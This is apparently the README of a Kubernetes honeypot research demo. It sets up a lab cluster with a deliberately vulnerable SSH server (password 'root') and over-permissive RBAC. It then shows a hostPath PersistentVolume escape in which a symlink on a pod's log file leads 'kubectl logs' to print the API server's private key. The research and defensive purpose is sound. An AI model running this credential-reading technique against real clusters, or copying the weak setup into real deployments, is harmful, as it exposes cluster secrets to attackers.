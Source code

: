 # Honeypots Research

## Simple Attack Tree

As a simple example attack tree, we will look at the attack path made possible if an attacker can create hostPath Persistent Volumes on a cluster, inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html).

```mermaid
flowchart TD
    A[Access sensitive \ninfo on node] --> |*kubectl logs BAD_POD*| B{Escape from \ncontainer \non node}
    A --> more1[. . . . . . . .]
    B -->|*container can run as root*| C[Dangerous Security Context]
    B --> |*writeable hostPath to /var/log*| D{Pod created \nwith PVC referencing \nhostPath PV}
    D --> E[Credentials] 
    D --> |*pod can create Pods/PVs/PVCs*| F[Misconfigured RBAC]
    E --> |*leaked creds used*| G[Initial access to \npod in cluster]
    E --> more2[. . . . . . . .]
```

## Demo

Spin up a kind cluster:

```bash
make cluster-up
```

Install [Tetragon](https://tetragon.io/):

```bash
make tetragon-install
```

Set up a [vcluster](https://www.vcluster.com/) within our kind cluster where our honeypot workloads will run:

```bash
make vcluster-deploy
```

Install [Kyverno](https://kyverno.io/) and enforce baseline Pod Security Standards across the cluster:

```bash
make kyverno-install
```

Install an intentionally vulnerable SSH server:

```bash
make ssh-install
```

Deploy a local storage class for our vcluster:

```bash
make sc-deploy
```

Set up a potentially dangerous Cluster Role and Cluster Role Binding enabling a default Service Account to create pods, persistent volumes, and persistent volume claims:

```bash
make rbac
```

Set up port forwarding to our SSH server:

```bash
make port-forward
```

Switch to a new terminal tab and copy some scripts over to the SSH server. The password is `root`. This represents initial attacker access to our honeypot cluster, via credential compromise:

```bash
make copy-scripts
```

SSH into the server using the same password:

```bash
make ssh-connect
```

From within the SSH session, run a malicious script which will create a HostPath type PersistentVolume which will allow a pod to access `/var/log` on the host (inspred by [this blog post](https://jackleadford.github.io/containers/2020/03/06/pvpost.html)), using the [Python Kubernetes client library](https://github.com/kubernetes-client/python):

```bash
source priv-create.sh
```

Switch to a new terminal tab and observe the dangerous pod running:

```bash
kubectl get po
```

Let's show that an attacker could use this pod to read arbitrary information from a node in the cluster (in this case we will read the K8s API server's private key). Exec into the pod:

```bash
make exec
```

Run the following from within the pod to write a symlink to its `0.log` file, which is followed by the Node upon `kubectl logs PODNAME` in order to read any file from the Node. `cd` into the directory `/hostlogs/pods/vcluster_bad-pv-pod_......../bad-pv-pod/` and run the following:

```bash
rm 0.log && ln -s /etc/kubernetes/pki/apiserver.key 0.log
```

If the service account compromised by our attacker could inspect the logs of the containers it can create, the attacker could now run:

```bash
k logs bad-pv-pod --tail=-1
```

Note that we can see the first line of the private key.

## Teardown

```bash
make cluster-down
```
